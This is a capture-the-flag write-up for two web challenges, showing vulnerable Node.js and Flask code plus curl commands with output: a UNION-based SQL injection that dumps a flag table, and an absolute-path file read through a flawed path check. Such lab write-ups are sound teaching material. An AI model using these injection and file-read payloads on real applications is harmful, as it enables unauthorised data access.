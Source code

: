 # Web

## walters_crystal_shop


### Info

![](screenshots/nb4.png)
![](screenshots/nb7.png)



##solution:

After analysing the code source we realise that the app use Sql database it creates tables: crystals and  flag that contains the flag

```javascript
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

```

here we can see the user input it's going in the query without any sanitization so it's clear a simple sql injection:
```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```
we have the table name and the column name and we know that we have 3 columns `(name, price, quantity)` so our payload should be:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://walters-crystal-shop.chal.nbctf.com/crystals?name=abc%27%20union%20select%20null,null,flag%20from%20flag%20--             
[{"name":null,"price":null,"quantity":"nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}"}]
```
and we got it :)


## galleria


### Info
![](screenshots/nb3.png)
![](screenshots/nb8.png)

i spent in this challenge like three hours trying to get RCE using file upload specially when i saw all ppl tryin the same

![](screenshots/nb9.png)

but then i decided to read the code source again 

##solution:

here the `check_file_path` function does not really filter the query `file` which we have full control of it

```python
def check_file_path(path):
    _path = Path(path)

    parts = [*Path.cwd().parts][1:]
    for part in _path.parts:
        if part == '.':
            continue
        if part == '..':
            parts.pop()
        else:
            parts.append(part)

        if len(parts) == 0:
            return False

    _path = os.path.join(os.getcwd(), path)
    _path = Path(_path)
    return _path.exists() and _path.is_file()
    
    
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```

also after checking the docker file :

`COPY flag.txt /tmp/flag.txt`

so our payload should be simple and not a file upload to get a RCE XD

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt                                                           
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```



